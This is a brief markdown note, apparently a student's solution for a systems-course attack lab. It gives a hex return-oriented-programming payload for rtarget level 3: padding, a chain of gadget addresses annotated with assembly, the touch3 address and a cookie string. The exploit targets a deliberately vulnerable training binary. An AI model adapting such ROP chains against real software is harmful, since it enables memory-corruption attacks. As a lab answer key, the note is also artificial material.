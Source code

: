 <!--
 * @Author: Samrito
 * @Date: 2021-11-29 15:47:57
 * @LastEditors: Samrito
 * @LastEditTime: 2021-11-29 15:55:10
-->
### ctarget part
level [x] -> ctarget_touch[x]

### rtarget part

level3解释
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
AD 1A 40 00 00 00 00 00 // movq %rsp, %rax; nop; ret;
C5 19 40 00 00 00 00 00 // movq %rax, %rdi; ret;
AB 19 40 00 00 00 00 00 // popq %rax; nop; ret;
48 00 00 00 00 00 00 00 // cookie字符偏移rsp
DD 19 40 00 00 00 00 00 // movl %eax, %edx; nop; ret; 
69 1A 40 00 00 00 00 00 // movl %edx, %ecx; nop; ret;
13 1A 40 00 00 00 00 00 // movl %ecx, %esi; nop; nop; ret;
D6 19 40 00 00 00 00 00 // leaq (%rdi, %rsi, 0x1) %rax; ret;
C5 19 40 00 00 00 00 00 // movq %rax, %rdi; ret;
FA 18 40 00 00 00 00 00 // touch3 addr
35 39 62 39 39 37 66 61 // '59b997fa'
00
```